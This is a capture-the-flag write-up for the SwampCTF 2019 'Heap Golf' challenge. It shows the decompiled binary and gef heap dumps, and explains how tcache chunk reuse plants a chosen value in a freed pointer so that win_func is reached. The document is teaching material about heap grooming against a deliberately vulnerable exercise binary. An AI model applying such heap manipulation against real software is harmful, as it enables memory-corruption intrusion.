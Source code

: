 # SwampCTF 2019 - Heap Golf
We use heap grooming to get a desired value into a pointer. The objective is to call **win_func**.

## Binary
### Code
Decompiled with Binary Ninja HLIL.

```c
int32_t main(int32_t argc, char** argv, char** envp)

  void* fsbase
  int64_t canary = *(fsbase + 0x28)
  int64_t green_0 = malloc(0x20)
  write(0, 0x400975, 0x1a)  {"target green provisioned.\n"}
  int64_t green_array
  *(&green_array + 0) = green_0
  int32_t index = 1
  write(0, 0x400990, 0x30)  {"enter -1 to exit simulation, -2 …"}
  while (true)
      write(0, 0x4009c1, 0x1c)  {"Size of green to provision: "}
      void input
      read(1, &input, 4)
      int32_t size = atoi(&input):0.d
      if (size == -1)
          break
      if (size == -2)
          for (int32_t i = 0; i s< index; i = i + 1)
              free(*(&green_array + (sx.q(i) << 3)))
          green_array = malloc(0x20)
          write(0, 0x400975, 0x1a)  {"target green provisioned.\n"}
          index = 1
      else
          int32_t* green_n = malloc(sx.q(size))
          *green_n = index
          *(&green_array + (sx.q(index) << 3)) = green_n
          index = index + 1
          if (index == 0x30)
              write(0, 0x4009de, 0x19)  {"You're too far under par."}
              break
      if (*green_0 == 4)
          win_func()
  if ((canary ^ *(fsbase + 0x28)) == 0)
      return 0
  __stack_chk_fail()
  noreturn

```


### Security 
NX and stack canaries enabled.

```shell
$ checksec ./heap_golf1 
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Solution
Allocate a heap chunk of the same size of *green_0*, 0x20, and then free them. When it automatically allocates the first green in our *green_array* it will return a pointer to the heap chunk we allocated. Now we just need to allocate chunks of sizes far away from 0x20 until the index is equal to our desired value, 4. When we now allocate a chunk of size 0x20 it will return the same chunk used previously for *green_0* and call **win_func**.


### Heap chunks at the start
```
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022d0, size=0x20d40, flags=PREV_INUSE)  ←  top chunk
```
We have *green_0* at 0x6022a0.

### Heap chunks after first allocation
```
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602300, size=0x20d10, flags=PREV_INUSE)  ←  top chunk
```
We have another chunk with the same size and containing the value 1.

### Heap chunks after free and automatic allocation
```
gef➤  heap bins
─────────────────────────────────── Tcachebins for arena 0x7ffff7fb0b80 ───────────────────────────────────
Tcachebins[idx=9, size=0xb0] count=0  ←  Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE) 

gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 10 20 60 00 00 00 00 00    ......... `.....]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     a0 22 60 00 00 00 00 00 00 00 00 00 00 00 00 00    ."`.............]
Chunk(addr=0x602300, size=0x20d10, flags=PREV_INUSE)  ←  top chunk
```
The chunk that was *green_0*, 0x6022a0, is now in the Tcachebin and the chunk we created, 0x6022d0, is now allocated.

(The binary does not clean the data received from malloc so the chunk allocated automatically still contains a pointer to the next free chunk in the Tcachebin. I also believe that 0x6022a0 should not appear in the command *"heap chunks"* from gef and that it is a mistake.)

### Heap chunks after 3 allocations of sizes away from 0x20
```
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 01 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     00 00 00 00 00 00 00 00 10 20 60 00 00 00 00 00    ......... `.....]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     a0 22 60 00 00 00 00 00 00 00 00 00 00 00 00 00    ."`.............]
Chunk(addr=0x602300, size=0x70, flags=PREV_INUSE)
    [0x0000000000602300     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602370, size=0x70, flags=PREV_INUSE)
    [0x0000000000602370     02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6023e0, size=0x70, flags=PREV_INUSE)
    [0x00000000006023e0     03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602450, size=0x20bc0, flags=PREV_INUSE)  ←  top chunk
```
We can see 3 more chunks containing values from 1, 2 and 3.

### Heap chunks after allocating chunk of size 0x20
```
gef➤  heap chunks
Chunk(addr=0x602010, size=0x290, flags=PREV_INUSE)
    [0x0000000000602010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022a0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022a0     04 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6022d0, size=0x30, flags=PREV_INUSE)
    [0x00000000006022d0     a0 22 60 00 00 00 00 00 00 00 00 00 00 00 00 00    ."`.............]
Chunk(addr=0x602300, size=0x70, flags=PREV_INUSE)
    [0x0000000000602300     01 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602370, size=0x70, flags=PREV_INUSE)
    [0x0000000000602370     02 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x6023e0, size=0x70, flags=PREV_INUSE)
    [0x00000000006023e0     03 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x602450, size=0x20bc0, flags=PREV_INUSE)  ←  top chunk
```
We got served the chunk that was in the Tcachebin, 0x6022a0, and it now contains the value 4. So we finally get to the **win_func** and get our flag.
